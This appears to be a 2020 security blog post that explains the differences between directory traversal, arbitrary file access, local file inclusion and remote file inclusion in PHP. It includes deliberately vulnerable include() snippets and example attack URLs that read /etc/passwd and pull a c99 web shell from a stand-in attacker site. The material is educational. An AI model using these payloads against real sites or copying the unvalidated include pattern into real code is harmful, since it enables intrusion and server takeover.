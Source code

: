 ```yaml
---
title: Local file inclusion & remote file inclusion
categories: Vulnerabilities
date: 2020-02-09 
author: shiva G prasadh
published: true
---
```

 
Sometimes you might be confused when you think about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. In a File Inclusion, Attackers run their own code on a vulnerable website. If the attacker can include their own malicious code on a web page, it is possible to "convince" a PHP script to include a remote file instead of a presumably trusted file from the local file system. Lets discuss about the differences.  


* * * 
 
### [](#header-3) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
### [](#header-3) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
### [](#header-3) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

```
	<?php
	$template =$_GET['template'];
	include("/".$template .".php");			
	?>
```

From Code, Attacker can assign template to be "../../../../etc/passwd%00". It causes the attacker to read a content from /etc/passwd.

```
[URL] http://vulnerableWebSite.com/index.php?template=../../../../etc/passwd%00
```

* * *
 
### [](#header-3) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
	<?php
	$incfile = $_REQUEST["file"];
	include($incfile.".php");
	?>
```
In this example the path is extracted from the HTTP request and no input validation is done.
```
[URL] http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite.com/c99.php
```

File Inclusion (RFI/LFI) mostly occurs from some functions that developers	do not properly check user supplied data.
	
Example PHP function:

	include()
	include_once()
	require()
	require_once()
	fopen()


